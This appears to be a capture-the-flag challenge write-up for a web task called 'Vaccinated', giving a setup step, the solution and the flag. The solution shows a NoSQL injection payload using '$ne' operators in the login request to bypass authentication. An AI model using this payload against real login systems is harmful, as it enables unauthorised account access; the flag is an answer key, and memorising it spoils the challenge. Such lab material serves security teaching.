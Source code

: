 # Vaccinated

## Question Text

I hate injections...

`http://web.chal.gryphonctf.com:18702`

*Creator - PotatoDrug*

## Setup Guide
Run `./build.sh`

## Solution

The login page is vulnerable to nosql injection.

Edit the post request to this before sending it to the service will give you the flag.
```
username[$ne]=asd
password[$ne]=asd
```
What this basically does is edit the query such that it will match all the users with username that is not `asd` and password that is not `asd`.

### Flag
`GCTF{NO5qL_do35_noT_M34n_No_1nj3cT1on}`

## Recommended Reads
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20injection
